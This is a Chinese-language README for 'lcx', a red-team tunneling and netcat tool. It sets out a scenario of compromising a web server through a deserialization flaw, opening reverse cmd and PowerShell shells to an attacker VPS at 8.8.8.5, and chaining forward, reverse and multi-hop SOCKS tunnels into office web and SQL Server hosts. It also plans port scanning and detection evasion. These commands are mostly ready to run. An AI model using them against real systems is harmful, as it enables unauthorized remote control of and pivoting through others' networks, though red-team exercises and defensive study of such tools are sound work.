

# lcx

# # 概述

lcx是国内最早开发的隧道工具，具体的细节已经不清楚，也没有人继续维护了。后来出现了earthworm，将socks和lcx整合在一起，但后来也不做了。

这个工具就是在前两者的基础上继续开发，并加入了netcat的功能，这样通过一个工具，就可以实现内网的隧道穿透。

# 目标

红蓝对抗的时候，我需要一组红队工具和一组蓝队工具。lcx就是用来实现内网隧道建立，通过socks等代理协议，可以实现访问内网的web服务，通过netcat，可以实现反弹shell，这样就可以远程操作。

我使用nc代码比较凌乱，需要进一步整理。

# 说明

## 环境说明



我们用这个图例来说明隧道建立过程和使用方法。 

我们假定红队通过小型网络连接到运营商网络，可以访问互联网，也可以通过VPS主机来访问客户的互联网业务，进而访问办公网络，进入业务系统。这里不涉及物理隔离网络，因为无法建立隧道。

## 使用场景

### 建立反弹shell

假定互联网业务的web容器有序列化漏洞，在114.114.114.110上得到一个web shell。

如果互联网业务允许http业务访问外部的http端口。得到反弹shell的操作如下：

在vps上运行

```bash
lcx.exe -S netcat -lvnp 443
listening on [any] 443 ...
connect to [8.8.8.5] from (UNKNOWN) [114.114.114.110] 30478
Microsoft Windows [Version 10.0.18363.778]
(c) 2019 Microsoft Corporation. All rights reserved.
d:\work\>
```

在web上运行

```cmd
lcx.exe -S netcat -e cmd.exe 8.8.8.5 443
```

这样就实现了从web服务器反弹连接到vps主机了，这样的一个反弹shell也可以使用powershell.exe来提供一个psh环境。

```powershell
lcx.exe -S netcat -e powershell.exe 8.8.8.5 443
```

### 访问互联网区域的web服务

1. 正向访问

   如果想访问 web2，但没有办法直接访问，那可以通过代理来访问，在web1上启动正向socks服务。

   ```cmd
   lcx.exe -S ssocksd -l 1080
   PS D:\work> .\lcx.exe -S ssocksd -l 1080
   server: listening on 0.0.0.0:1080
   ```

   然后在浏览器配置socks 代理为114.114.114.110:1080，就可以访问web2了。

2. 反向访问

如果想访问 web2，但没有办法直接访问，并且没法进行正向访问，那可以通过反向代理来访问。

- 先在vps上启动反向代理。

  ```bash
  lcx -S rcsocks -l 1080 -e 443 
  ```

- 然后在web1上启动

```cmd
lcx.exe -S ssocksd -s rssocks -d 8.8.8.5 -e 443 
```

然后在浏览器配置socks 代理为8.8.8.5:1080，就可以访问web2了。

### 访问办公区域的web服务

这里假定办公区可以访问DMZ，则可以采用多级串联方式来建立隧道。

- 先在web上启动TCP监听。

  ```bash
  lcx.exe -S listen -l 1080 -e 443 
  ```

- 然后在oa上启动

  ```cmd
  lcx.exe -S ssocksd   -l 9999
  lcx.exe -S slave  -d 10.10.1.110 -e 443 -f  10.60.1.162 -g 9999
  ```

  然后在浏览器配置socks 代理为114.114.114.110:1080，就可以访问办公网内的web服务了。


### 访问办公网络的SQL服务

假定办公网络使用的是SQL Server服务，端口为1433。

- 在互联网区的web上

  ```bash
  lcx.exe -S listen -l 443 -e 8888
  ```


- 然后在oa上启动

  ```cmd
  lcx.exe -S slave -d 10.10.1.110 -e 8888 -f 10.60.1.161 -g 1433
  ```
  
然后在数据库的服务器为114.114.114.162:1433，就可以访问数据库了。

### 访问业务网络的web服务


### 访问业务网络的SQL服务


# 规划

1. http proxy
2. IP v6
3. port scan lcx.exe -S netcat -zv 172.19.1.1 1-2000
4. multiple platform

# BUG

1. netcat仅仅支持例子中的两个命令，其它都不支持。
2. 不支持加密
3. 不支持yara规则检测躲避

# 参考

1. http://rootkiter.com/EarthWorm/
2. 

